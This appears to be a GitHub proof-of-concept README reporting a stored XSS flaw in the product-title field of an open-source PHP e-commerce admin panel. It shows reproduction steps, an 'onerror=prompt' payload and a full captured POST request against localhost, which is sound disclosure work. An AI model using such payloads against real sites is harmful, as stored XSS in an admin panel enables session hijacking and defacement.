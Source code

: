 # Full-Ecommece-Website-Add_Product-Stored_XSS-POC
* `Note` => Login to admin
* `Description` => Stored_XSS at `Product Title`
# Step to Reproduct
* `Login to admin` -> `Add Product` -> input payload `<img/src/onerror=prompt(10)>` at `Product Title`
# Exploit
![image](https://user-images.githubusercontent.com/79050415/158090373-2c108b5d-999d-4b23-82dc-1971dd1809fb.png)
* Input payload at `Product Title` -> clicked `Product Title` -> The XSS will trigger
![image](https://user-images.githubusercontent.com/79050415/158090577-8977edc4-12da-47bf-a24f-fcac2113928b.png)
![image](https://user-images.githubusercontent.com/79050415/158090598-0b273971-4fe1-4479-b7c1-95597f40fe83.png)
# Vulnerable Code
![image](https://user-images.githubusercontent.com/79050415/158090702-340cdc74-8abc-4903-99e9-4d7b2d9b6414.png)
![image](https://user-images.githubusercontent.com/79050415/158151529-b0bb3b26-cb0f-43a1-8aab-967cbc71a30b.png)
* When inserting into the database, the input is not filtered out characters
# POC
* Injection Point
```c
------WebKitFormBoundaryXtBAIsNDayF64Ebh
Content-Disposition: form-data; name="product_title"

<image/src/onerror=prompt(8)>
```
* Request
```c
POST /Full-Ecommece-Website/Codes/public/admin/index.php?add_product HTTP/1.1
Host: localhost:8080
Content-Length: 1354971
Cache-Control: max-age=0
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost:8080
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXtBAIsNDayF64Ebh
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8080/Full-Ecommece-Website/Codes/public/admin/index.php?add_product
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=oam3rcbi14nilh2pp3s21upev5; twk_uuid_5c2396fb7a79fc1bddf24b28={"uuid":"1.AGDzvqvmbboNUBtyBA0XLKxrviwKWw7HVKOjPqv5aIOJHjOnigPvpa5cn7QPGv6D5QwLM7ZIIBSpua1NrhQBpEeAdolcmuMk3JJtap3Nu2WjBL31HFdBqMF9VFcu8Olw","version":3,"domain":null,"ts":1647022863776}; TawkConnectionTime=0
Connection: close

------WebKitFormBoundaryXtBAIsNDayF64Ebh
Content-Disposition: form-data; name="product_title"

<image/src/onerror=prompt(8)>
------WebKitFormBoundaryXtBAIsNDayF64Ebh
Content-Disposition: form-data; name="product_description"

hacked
------WebKitFormBoundaryXtBAIsNDayF64Ebh
Content-Disposition: form-data; name="product_price"

10000
------WebKitFormBoundaryXtBAIsNDayF64Ebh
Content-Disposition: form-data; name="short_desc"

hacked
------WebKitFormBoundaryXtBAIsNDayF64Ebh
Content-Disposition: form-data; name="publish"

Publish
------WebKitFormBoundaryXtBAIsNDayF64Ebh
Content-Disposition: form-data; name="product_category_id"

12
------WebKitFormBoundaryXtBAIsNDayF64Ebh
Content-Disposition: form-data; name="product_quantity"

1
------WebKitFormBoundaryXtBAIsNDayF64Ebh
Content-Disposition: form-data; name="file"; filename="car.png"
Content-Type: image/png

PNG
```
`VIDEO POC` https://drive.google.com/file/d/155K4qLwGI8kwctd5FijU9gzonSA2rMFz/view?usp=sharing

